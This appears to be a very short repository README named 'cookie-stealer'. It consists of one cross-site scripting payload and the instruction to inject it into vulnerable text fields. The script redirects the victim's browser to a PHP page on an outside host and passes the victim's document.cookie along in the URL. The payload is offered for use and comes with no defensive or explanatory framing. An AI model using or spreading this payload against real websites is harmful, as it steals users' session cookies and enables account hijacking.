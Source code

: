 # cookie-stealer

inject 
	<script language="javascript"> document.location= " http://kennethzhang.net/cookiegrab.php?c=" + document.cookie; </script>
into vulnerable text fields
